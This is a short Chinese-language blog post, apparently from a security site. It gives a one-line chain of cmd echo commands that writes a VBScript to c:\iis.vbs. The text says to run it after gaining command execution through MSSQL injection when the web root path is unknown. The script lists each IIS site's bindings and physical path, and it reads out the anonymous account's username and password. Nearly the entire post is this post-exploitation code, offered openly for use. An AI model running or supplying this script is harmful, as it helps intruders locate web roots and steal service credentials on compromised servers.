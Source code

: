 +++
title = "echo 一句话写入读IIS配置vbs脚本"
author = "Hzllaga"
date =  2018-04-06
description = "最近又好多人来找我要这个，直接用echo写入，很方便的，遇到mssql注入找不到路径就运行这个然后cscript c:\\iis.vbs就可以了！"
categories = ["原创"]
tags = ["vbs"]
+++
最近又好多人来找我要这个，直接用echo写入，很方便的，遇到mssql注入找不到路径就运行这个然后cscript c:\\iis.vbs就可以了！
![](https://cdn.wtfsec.org/img/20200223163824.png)
code:
{{< highlight vbs >}}
echo Set ObjService=GetObject("IIS://LocalHost/W3SVC")>>c:\iis.vbs & echo For Each obj3w In objservice >>c:\iis.vbs & echo childObjectName=replace(obj3w.AdsPath,Left(obj3w.Adspath,22),"")>>c:\iis.vbs & echo if IsNumeric(childObjectName)=true then>>c:\iis.vbs & echo set IIs=objservice.GetObject("IIsWebServer",childObjectName)>>c:\iis.vbs & echo if err.number^<^>0 then>>c:\iis.vbs & echo exit for>>c:\iis.vbs & echo msgbox("error!")>>c:\iis.vbs & echo wscript.quit>>c:\iis.vbs & echo end if>>c:\iis.vbs & echo serverbindings=IIS.serverBindings>>c:\iis.vbs & echo ServerComment=iis.servercomment>>c:\iis.vbs & echo set IISweb=iis.getobject("IIsWebVirtualDir","Root")>>c:\iis.vbs & echo user=iisweb.AnonymousUserName>>c:\iis.vbs & echo pass=iisweb.AnonymousUserPass>>c:\iis.vbs & echo path=IIsWeb.path>>c:\iis.vbs & echo list=list^&servercomment^&" "^&user^&" "^&pass^&" "^&join(serverBindings,",")^&" "^&path^& vbCrLf ^& vbCrLf>>c:\iis.vbs & echo end if>>c:\iis.vbs & echo Next >>c:\iis.vbs & echo wscript.echo list >>c:\iis.vbs & echo Set ObjService=Nothing >>c:\iis.vbs & echo wscript.echo "x" ^&vbTab^&vbCrLf>>c:\iis.vbs & echo WScript.Quit>>c:\iis.vbs
{{< /highlight >}}